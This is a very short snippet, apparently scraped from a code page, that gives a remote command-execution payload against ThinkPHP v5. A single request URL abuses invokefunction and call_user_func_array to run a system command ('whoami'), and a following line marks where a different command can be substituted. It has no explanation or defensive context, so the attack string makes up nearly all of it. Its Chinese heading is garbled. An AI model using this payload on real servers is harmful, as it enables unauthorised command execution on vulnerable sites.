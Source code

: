 # thinkphpv5 命令利通

```
index/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
s[1]=命令

